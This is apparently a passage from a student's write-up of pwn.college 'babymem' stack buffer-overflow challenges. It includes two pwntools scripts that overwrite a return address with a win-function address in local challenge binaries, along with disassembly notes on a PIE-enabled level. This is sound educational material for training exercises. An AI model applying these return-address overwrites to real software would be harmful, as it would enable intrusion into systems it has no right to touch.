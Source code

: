**My script:**
```
from pwn import *
r = process('/challenge/babymem_level6.0')
r.recvuntil(b'Payload size: ')
r.sendline(b'128')
r.recvuntil(b'Send your payload (up to 128 bytes)!')
r.sendline(b'A'*120 + p64(0x402355))
r.interactive()**
```
# 6. Level 6.1:

-It is completely similar to level 6.0, you only calculate offset myself.
**My script:**
```
from pwn import *
r = process('/challenge/babymem_level6.1')
r.recvuntil(b'Payload size: ')
r.sendline(b'96')
r.recvuntil(b'Send your payload (up to 96 bytes)!')
r.sendline(b'A'*88 + p64(0x4020b9))
r.interactive()
```
# 7. Level 7.0:
> In this level, there is no "win" variable.
> You will need to force the program to execute the win_authed() function
> by directly overflowing into the stored return address back to main.

> **WARNING: You sent in too much data, and overwrote more than two bytes of the address.
>          This can still work, because I told you the correct address to use for
>          this execution, but you should not rely on that information.
>          You can solve this challenge by only overwriting two bytes!**

**Notice that: Overflow a buffer and smash the stack to obtain the flag, but this time in a position independent (PIE) binary!**

- I do something the same as level 6.0; however, it don't work; **PIE enable**. Therefore, I read again instruction and assembly code to find the reason.
- Let's break challenge function, there are somes important segment:
```
0x000055e4773dcd17 <+1287>:  mov    rdx,QWORD PTR [rbp-0x38]
0x000055e4773dcd1b <+1291>:  mov    rax,QWORD PTR [rbp-0x8]
0x000055e4773dcd1f <+1295>:  mov    rsi,rax
0x000055e4773dcd22 <+1298>:  mov    edi,0x0
0x000055e4773dcd27 <+1303>:  call   0x55e4773dc180 <read@plt>
0x000055e4773dcd2c <+1308>:  mov    DWORD PTR [rbp-0xc],eax
```

```
0x0000556b1004fe64 <+1620>:  mov    eax,DWORD PTR [rbp-0xc]
0x0000556b1004fe67 <+1623>:  movsxd rdx,eax
0x0000556b1004fe6a <+1626>:  mov    rax,QWORD PTR [rbp-0x8]
0x0000556b1004fe6e <+1630>:  add    rdx,rax
0x0000556b1004fe71 <+1633>:  mov    rax,QWORD PTR [rip+0x4318]        # 0x556b10054190 <rp_>
0x0000556b1004fe78 <+1640>:  add    rax,0x2
0x0000556b1004fe7c <+1644>:  cmp    rdx,rax
0x0000556b1004fe7f <+1647>:  jbe    0x556b1004febd <challenge+1709>
```
-I think the step check in the second segment which I bring to you, is not important because the program doesn't exit after that; it only prints instructions.
- This takes input from the buffer, adds with the size of the payload you write, and compare its with the **value** of the return address + 0x2. If you don't like it, you can write bytes \x00 instead of random bytes.
